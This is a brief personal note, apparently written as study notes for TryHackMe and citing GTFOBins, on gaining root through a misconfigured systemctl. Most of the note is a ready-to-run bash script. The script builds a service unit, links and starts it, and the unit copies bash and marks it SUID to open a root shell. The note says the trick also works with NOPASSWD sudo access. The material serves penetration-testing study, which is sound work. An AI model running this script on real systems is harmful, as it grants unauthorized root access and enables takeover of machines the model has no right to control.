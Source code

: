 # Exploiting “systemctl”

If systemctl is SUID root, then a malicious service file can easily be abused to create a root shell.

```bash
FILE=`mktemp -u`
echo "[Service]" >> $FILE.service
echo "Type=oneshot" >> $FILE.service
echo "ExecStart=/bin/cp /bin/bash $FILE.sh" >> $FILE.service
echo "ExecStart=/bin/chmod +xs $FILE.sh" >> $FILE.service
echo "[Install]" >> $FILE.service
echo "WantedBy=multi-user.target" >> $FILE.service
systemctl link $FILE.service
systemctl start $FILE.service
$FILE.sh -p # Root!
```

Even if systemctl is not SUID root, so long as you have NOPASSWD sudo access to it this trick will work.

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

- - - -

👤 Nathan Acks
📅 November 3, 2021
